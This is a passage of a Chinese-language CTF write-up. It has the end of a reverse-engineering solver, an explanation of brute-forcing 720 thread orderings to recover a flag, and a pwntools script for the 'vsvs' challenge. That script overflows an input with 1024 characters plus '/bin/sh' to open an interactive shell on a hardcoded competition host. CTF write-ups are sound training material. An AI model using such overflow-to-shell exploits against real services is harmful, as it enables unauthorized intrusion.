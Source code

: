 ```
        res = enc(res, base ~ base ~ base , 499-i);
        writeln(base ~ base ~ base);
    }
    writeln(res);
    return 0;
}
```

**first**

程序先读取输入，然后开启6个线程去计算输入的6部分的 md5，每个部分都是4个字符。如果 md5匹配就把输入存进一个新的数组。然后校验这个新的数组是不是所有字符都合法，如果是的话就输出。

程序的关键点在于6个线程的执行顺序是随机的，程序开始的时候产生了6个随机数，即为每个线程的延迟时间。而且线程的执行顺序会影响到最终结果（后面有个 xor i，顺序错了字符就乱了）。6个线程的执行顺序是6！= 720种。

只要爆破这720种就能拿到 flag。

然而比赛的时候非常幸运，第二次运行就拿到了看起来非常像 flag 的字符串，猜猜改改提交就过了。

[![](./img/85691/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0197a4ddfc2f4e8abd.jpg)

<br>

**Mobile**

**vsvs**

先爆破code，得到第一层code为22，然后有个溢出，直接传/bin/sh就能拿flag了：



```
#!/usr/bin/python
# -*- coding: utf-8 -*-
from pwn import *
import time
REMOTE = 0
LOCAL_REMOTE = 1
LOCAL = 2
rhost = "218.2.197.235"
rport = 23749 
flag = REMOTE
debug = 0
def GetConnection():
    if flag == LOCAL_REMOTE:
        conn = remote(lhost,lport)
        libc_addr = libc_addr_local
    elif flag == REMOTE:
        conn = remote(rhost,rport)
        libc_addr = libc_addr_remote
    elif flag == LOCAL:
        conn = process(local_bin)
        libc_addr = libc_addr_local
    return conn,libc_addr
exp = 1024*"d" + "/bin/sh"
conn,libc_addr = GetConnection()
conn.sendlineafter("access code:n","22")
conn.sendlineafter("input:",exp)
conn.sendlineafter("?",exp)
conn.interactive()
easycrack
```
